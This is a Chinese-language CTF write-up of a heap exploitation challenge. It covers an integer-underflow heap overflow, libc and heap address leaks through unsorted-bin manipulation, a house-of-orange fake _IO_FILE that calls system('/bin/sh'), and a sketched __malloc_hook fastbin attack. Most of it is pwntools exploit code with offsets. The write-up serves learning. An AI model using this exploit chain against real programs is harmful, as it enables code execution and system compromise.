

# 0x00 前言

这题自己思维僵化了，看到经典菜单题就对着堆开始刚了，结果刚出个非预期解。。。刚了两天最后还因为不会重定向没拿到flag，可以说是很尴尬了。。。但是对着堆刚的确需要对堆的理解比较深刻，我这种菜鸟就刚了两天。。。最后发现好像另外一种堆利用是用fastbin attack，但是我这边是用的house of orange，前者貌似简单的多，因为只用leak一个libc就好了，heap不用leak，然而leak heap真的想了我好久。。。然而最近刚好也在学习house of orange，就当是练习了吧。。。然后破解hash我就不说了，这个比较简单大佬们的WP都有写，我这篇主要是分享非预期解的实现，以及给自己做一个总结。相关资料可以看[house of orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c)。

# 0x00 程序漏洞

不考虑预期解的VM部分，程序的漏洞有

```c
printf("Size :");
LODWORD(v0) = get_int();
size[1] = (unsigned int)v0;
if ( (unsigned int)v0 > 0x80uLL )
    return v0;
dest = malloc((unsigned int)v0);
//...
printf("Content :");
n = get_input_noterm(a1_2030C0, (unsigned __int8)(LOBYTE(size[1]) - 1));
memcpy(dest, a1_2030C0, n);
//...
```

这里有个知识点，当调用`malloc(0)`的时候，会返回一个0x20的fastbin的chunk，然后后面`get_input_noterm`的时候对这个size减了1，能写`0xff`个字节（因为强转成了byte），所以会有整形溢出导致的堆溢出

而且`show`的时候，是直接`write(1, chunk_0.buf, (unsigned __int8)chunk_0.size);`的，所以可以直接通过这个leak

# 0x01 leak

我们知道，当unsorted bin里有一个chunk的时候，可以leak出libc，而有两个chunk的时候，可以leak出libc和heap，这个具体可以看一下堆的实现，因为是个双向链表。

接着就是如何构造unsorted bin了，这题目就很蛋疼了，他只会记录最近一个chunk，而且只能free最近一个malloc的堆，这看似没法构造出unsorted bin，因为会直接跟top chunk merge掉，但是其实是有办法的，这里又涉及到一个知识点。

如果我们

```python
for x in xrange(0x2,0x8):
	malloc_until(x * 0x10, "\x00")
	free()

# allocate continuous fastbin chunks,
# this will be consolidated to unsorted bin
# when top chunk consolidate occurs.
# 此时fastbin从0x30到0x80各有一个chunk

malloc_until(0, "A" * 0x18 + p64(0x71)) # take from top chunk, prevent whole merge
malloc_until(0x80, "\x00")
# top chunk not enough, so libc will consolidate fastbin,
# and return an address that used to be chunk of size 0x30
free()
```

这样的话，在`malloc(0x80)`之后，堆管理器会把fastbin里面的chunks合并成一个chunk塞到unsorted bin里面去。`malloc_until(0, "A" * 0x18 + p64(0x71))`是为了防止这些fastbin里面的chunk跟top chunk直接merge了，所以用这个来分割一下。至于溢出部分是改写top chunk大小，这个待会会说。

执行完for循环后，堆的状态如图所示



执行完后面的`free()`后，堆的状态如图所示


可见，原本在fastbin里面的那些chunks，被merge并且塞到了unsorted bin中（0x30的地址跟unsorted bin的chunk的地址一样，大小也能算一下，是对的）

但是这个时候只有一个chunk，house of orange需要堆基址泄露，需要在unsorted bin中构造两个chunks，怎么办？

emm这个又是一个卡了我很久的地方，本来想house of orange把top chunk变成unsorted bin结果发现这个top chunk太小（最多只能0x80，因为程序限制最大malloc的大小为0x80，即最大能分配的chunk大小为0x90，而house of orange相当于free掉top chunk，所以这个大小会直接被塞到fastbin里面去。有趣的是，如果top chunk大小为0x70，他并不会把chunk直接塞到0x70的fastbin中，而是会塞到0x50的fastbin中，并且分割出两个0x10的chunk，没错就是0x10的chunk，不知道为什么，有大神知道可以讨论一下）

然后我又试了另一个方法，就是如果不能构造两个unsorted bin的chunk，构造两个fastbin的chunk也能leak堆，但是此时发现了一个很神奇的事情，如果此时堆中有一个0x50的chunk，top chunk为0x70，此时`malloc(0x80)`，理论上来讲根据上面所说会把这个0x70分出两个0x10的chunk并且把剩下的0x50的chunk塞到fastbin，此时理论上来讲会0x50的fastbin会有两个chunk，但是神奇的是，`malloc(0x80)`调用完后，原来在fastbin的0x50的chunk被移到了unsorted bin，所以0x50的fastbin还是只有一个chunk。。。我的猜想是，无论是consolidate top chunk，还是extend堆换top chunk，都会对fastbin做清理并且移到unsorted bin，当然这只是猜想，具体的要看libc源码才能了解透。。。

最后就是成功leak的方法了，首先extend堆是肯定要的，所以最开始要把堆先往右边"shift"一下

```python
# ----------shift the heap to let top chunk + modified size page aligned----
for i in xrange(0,((0x1000-0x230)/0x20)-3): # 参数自己试出来的
	print i
	malloc_until(0x10, "\x00")
```

这样最后就能在`malloc_until(0, "A" * 0x18 + p64(0x71))`的时候让top chunk是0xXXX071，这样就可以保证`top chunk + size`是page align的

接下来我就想，如何在unsorted bin构造两个chunks，如果是house of orange的extend堆的方法的话，那么是否可以在新的堆区塞一个chunk到unsorted bin中呢？因为这样就不会merge了。

答案是对的，同样是用之前的方法，把fastbin里面的东西放到unsorted bin中

```python
# -------------leak libc and heap------------------------
malloc_until(0x70, "\x00")
malloc_until(0x70, "\x00")
malloc_until(0x70, "\x00")
# 3 from unsorted bin, which is size 0x20 now
# and top chunk size is 0x70
malloc_until(0x20, "\x00")
# consume unsorted bin to size 0x60

malloc_until(0x80, "\x00")
# mmap to new heap segment
# 这里extend堆，因为top chunk只有0x70不够分配，而且unsorted bin也不够

for x in xrange(0x6,0x8):
	malloc_until(x * 0x10, "\x00")
	free()
    #只分配0x70到0x80的chunk是为了只从新的top chunk里面拿

malloc_until(0x70, "\x00")#分割，防止全merge一起
malloc_until(0x80, "\x00")
free()#这里top chunk会consolidate，所以0x60和0x80的fastbin会到unsorted bin里去
```

跟前面那个类似。只不过前面那个top chunk是0x70，`malloc_until`会从fastbin的chunks那边拿（注意不是直接拿fastbin的chunk，可以理解为从fastbin merge后的大chunk中拿）；而这个会从top chunk里面拿，consolidate的时候再把fastbin的那些chunks转成unsorted bin。。不过结果都是把fastbin的chunks变成unsorted bin就是了。。


此时堆的情况如下，这样的话就可以leak出heap的基址了

```python
malloc_until(0x40, "\x00")
leak = show()
libc_addr = u64(leak[0:8]) - 0x3c4b00
heap_addr = u64(leak[8:16]) - 0x21090
assert (libc_addr & 0xfff) == 0 and (heap_addr & 0xfff) == 0
print hex(libc_addr)
print hex(heap_addr)
```

# 0x02 house of orange

接着就是unsorted bin实现house of orange，这个不具体说了，可以看看资料，注意那几个参数要设对。

有个坑就是`0x0106040f01130301`和`0x4000161302011409`还有后面一个`0`，一开始怎么都会segfault，一开始以为是malloc的问题，结果其实根本不是，是这两个数在全局变量区被覆盖而导致的，所以payload覆盖不能动它们。也就是这个时候我大概意识到了预期解是什么。。。

最后其实还有个问题，如果`malloc(0)`之后紧跟用来house of orange的`unsorted bin`，`system`的地址刚好跟那几个magic number重合。。。尴尬，所以要先再在0x20的chunk后面malloc一个chunk，然后再覆盖。。。

PS：我就在刚刚，写完这段话的时候，意识到把虚表位置改一下就能解决这个问题。。。看来是当时犯蠢了。。。

然后这又有问题，因为只能写`0xff`个字节，而`padding + sizeof _IO_FILE_plus`大于这个数，所以办法就是跨chunk分两次放。。。payload如下。。。

```python
# now
# pwndbg> x/4gx  0x55adbd120090
# 0x55adbd120090:	0x0000000000000000	0x0000000000000071
# 0x55adbd1200a0:	0x00007f78bb0d6b78	0x00007f78bb0d6b78
# in unsorted bin

malloc(0x50, "consume one chunk in small bin")
malloc(0x80, "\x00" * 40 + p64(heap_addr + 0x210e0 + 0x60) + "GGGGGGGG") # shift top chunk back
#放_mode与vtable地址
malloc(0x10, "\x00")
free()#放到fastbin里面
malloc(0x20, "\x00")#防止system地址和unsorted bin重合

system_addr = libc_addr + e.symbols["system"]
print hex(system_addr)
# 0x7fc08b121b78 - 0x7fc08ad5d000 = 0x3c4b78
# fake_file off = 0x55f21fe970b0 - 0x55f21fe76000 = 0x210b0
hso_fake_file = "/bin/sh\x00" + p64(0x61)
hso_fake_file += p64(libc_addr + 0x3c4b78)
hso_fake_file += p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)
hso_fake_file += p64(2) + p64(3)
hso_fake_file += "\x00" * 0x10
hso_fake_file += p64(0x0106040f01130301)#"\x00" * 8
hso_fake_file += p64(0x4000161302011409)
hso_fake_file += "\x00" * 0x10
hso_fake_file += p64(0)
hso_fake_file += p64(0)
hso_fake_file += p64(0)#"\x00" * 8
hso_fake_file += p64(system_addr)
# hso_fake_file += p64(0)
# hso_fake_file += p64(0)
# hso_fake_file += "\x00" * (0xc0-0x90) + p64(0)
# hso_fake_file += "\x00" * 0x10 + p64(heap_addr + 0x210b0 + 0x60)

malloc(0, "A" * 0x40 + hso_fake_file)
#0x40跨了一个0x30的chunk，溢出到unsorted bin做house of orange
malloc(10, "\x00")
sh.interactive()
```

其实house of orange还有一个坑，只有当libc的低DWORD为负数的时候，才有效，具体是要让`_IO_list_all`中第一个元素（在main arena上）不过这个check，不然就会通过虚表call到main arena上面去，具体跟一下就知道了。。。

```c
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
                        //第二个一般为false，因为一般fp->_IO_write_ptr == fp->_IO_write_base
                        //因为它们事实上在内存位置上是同一个bin
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
           //这个一般为true，因为访问到了两个不同的bin的libc地址，
           //而_IO_write_ptr在内存位置的后面，所以值（实际上是libc中的地址）要更大
           //具体跟一下就知道了
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)//call虚表的宏
```

所以，根据他的逻辑，只要`fp->_mode <= 0`就会循环到链表中第二个元素call虚表，即我们的system

# 0x04 可能的另一种非预期解

利用fastbin attack写malloc free，应该也可行。

这个还不用leak heap，多简单。。。

大概应该是先跟我一样构造一个unsorted bin，然后`malloc(0x10);show();free()`再`malloc(0x60);free()`，此时fastbin中0x20有1个，0x70有一个，然后再`malloc(0)`并且溢出到`0x70`的那个chunk，改写fd指针。再`malloc(0x60)`两次就可以改写`__malloc_hook`成`one_gadget`了，这个貌似比我上面的方法简单的多。。。我怎么当时没想到呢，还是太菜了。。。